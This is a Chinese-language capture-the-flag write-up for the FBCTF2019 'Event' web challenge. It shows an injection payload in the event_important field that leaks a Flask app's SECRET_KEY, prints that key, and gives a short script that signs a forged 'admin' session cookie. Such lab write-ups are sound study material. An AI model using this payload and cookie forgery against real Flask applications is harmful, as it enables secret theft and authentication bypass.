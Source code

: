 ```yaml
---
title: '[FBCTF2019]Event'
date: 2024-10-17 19:40:02
tags:
      - session伪造
categories: 刷题笔记
---
```


### [FBCTF2019]Event

![image-20241017200434931](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172004038.png)

打开发现有个登录框，sql啥的试了一下没啥用，我们正常登录

我们在及源码里发现个/flag路由 ，我没猜测后台为flask框架

抓包发现有两个cookie，还有三个参数

<!--more-->

![image-20241017202208237](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172022276.png)

我们对第一个cookie进行解密

![image-20241017202341121](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172023149.png)

得到一串感觉没啥用的东西

我们对第二个cookie进行解密

![image-20241017202707588](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172027614.png)

得到用户名10，猜测思路应该是找到提示，伪造cookie的user登陆为admin获得flag

```
通过测试，使用__class__或者__dict__在event_important处可以爆出相关内容
```

我们使用

```
__class__.__init__.__globals__[app].config
```

通过此获取配置文件

![image-20241017202735076](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172027115.png)

我们得到密钥

```
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'
```

flask原理：json->zlib->base64后的源字符串 . 时间戳 . hmac签名信息

![img](https://img2020.cnblogs.com/blog/1960851/202009/1960851-20200924204001106-289181411.png)

### exp

```
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()

//ImFkbWluIg.ZxED-g.IeMUk6ttojn-qxjcHDEpHpLNw0E
```

替换user，得到flag

![image-20241017203339231](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410172033277.png)
